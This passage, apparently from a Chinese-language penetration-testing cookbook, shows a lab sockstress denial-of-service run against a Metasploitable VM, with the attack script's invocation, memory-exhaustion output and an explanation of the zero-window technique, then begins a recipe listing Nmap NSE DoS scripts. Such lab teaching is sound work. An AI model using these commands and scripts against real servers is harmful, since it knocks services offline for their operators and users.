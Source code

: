 在执行脚本后的几分钟，我们可以看到已建立的连接的数量急剧增加。 此处显示的输出已截断，连接列表实际上明显长于此：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        497          6          0        149        
138 -/+ buffers/cache:        209        294 
Swap:            0          0          0 
```

通过连续使用`free` 工具，我们可以看到，系统的可用内存逐渐耗尽。 一旦内存空闲值下降到几乎没有，空闲缓冲区/缓存空间将开始下降：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        498          4          0          0          
5 -/+ buffers/cache:        493         10 
Swap:            0          0          0 
```

在本地系统上的所有资源耗尽之后，系统最终会崩溃。 完成此过程所需的时间将取决于可用的本地资源量。 在这里提供的示例中，这是在具有 512 MB RAM 的 Metasploitable VM 上执行的，攻击花费了大约 2 分钟来耗尽所有可用的本地资源并使服务器崩溃。 服务器崩溃后，或者你希望停止 DoS 攻击时，可以按`Ctrl + C`。

```
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
^C 
pressed Ctrl+C! 
Fixing IP Tables 
```

脚本被编写来捕获由于按`Ctrl + C`而发送的终止信号，并且它将通过去除在终止脚本的执行序列之前生成的规则,来修复本地 iptables。

### 工作原理

在 sockstress DoS 中，三次握手中的最后的 ACK 封包的窗口值为 0。由于连接客户端的空窗口所示，漏洞服务不会传送任何数据来响应连接。 相反，服务器会保存要在内存中传输的数据。 使用这些连接充斥服务器将耗尽服务器的资源，包括内存，交换空间和计算能力。

## 6.9 使用 Nmap NSE 执行 DoS 攻击

Nmap 脚本引擎（NSE）拥有许多可用于执行 DoS 攻击的脚本。 这个特定的秘籍演示了如何找到 NSE DoS 脚本，确定脚本的用法，以及如何执行它们。

### 准备

为了使用 Nmap NSE 执行 DoS 攻击，你需要有一个运行漏洞服务的系统，它易受 Nmap NSE DoS 脚本之一的攻击。 所提供的示例使用 Windows XP 的实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。

### 操作步骤

在使用 Nmap NSE 脚本执行 DoS 测试之前，我们需要确定哪些 DoS 脚本可用。 在 Nmap NSE 脚本目录中有一个`greppable script.db`文件，可用于确定任何给定类别中的脚本：

```
root@KaliLinux:~# grep dos /usr/share/nmap/scripts/script.db | cut -d "\"" -f 2 
broadcast-avahi-dos.nse 
http-slowloris.nse ipv6-ra-flood.nse
smb-check-vulns.nse 
smb-flood.nse 
smb-vuln-ms10-054.nse 
```
